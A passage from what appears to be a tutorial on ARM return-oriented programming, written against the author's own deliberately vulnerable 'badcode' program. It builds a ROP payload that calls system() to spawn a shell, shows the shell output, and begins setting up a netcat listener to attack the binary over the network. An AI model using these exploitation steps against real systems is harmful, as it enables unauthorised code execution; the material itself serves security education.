 Adding the offset to the start address, we have

```bash
$ system_addr=$(printf %08x $((0x76e66000+0x39fac)) | tac -rs..)
```

We set up the first 84 bytes as 80-byte arbitrary data followed by the
saved $r11 value 0x00000000.

```bash
$ pad=$(echo -n "ARM ROP Tutorial" | xxd -p; \
echo -n "00"; \
for i in `seq 63`; do echo -n "42"; done; \
echo -n "00000000")
```

Now we complete the construction of the 96-byte ROP payload

```bash
$ echo -n ${pad}${ret}${r0}${system_addr} | xxd -r -p > rop_payload
```

Run the ROP exploit

```bash
$ (cat rop_payload ; cat) | ./badcode_dep 
```

Hit a few enters to get in the spawned shell.

```bash
Enter name:

ARM ROP Tutorial
whoami
pi
date
Fri  4 May 04:53:42 CST 2018
exit
```

Note that when we exit from the shell, it might get a (harmless)
segmentation fault. This is likely caused by the arbitrary bytes we used
for the padding or our setting the saved $r11 as 0x00000000. I have not
dug into the root cause, but it should not affect the effectiveness
of our exploit.

## How to demonstrate the attack over the network

* On victim machine, change to the `src` directory. On one terminal

  ```bash
  $ mkfifo pip
  $ nc -l 3333 > pip # listening on port 3333: DANGER
  ```

  On another terminal

  ```bash
  $ cat pip | setarch `arch` -R ./badcode
  ```
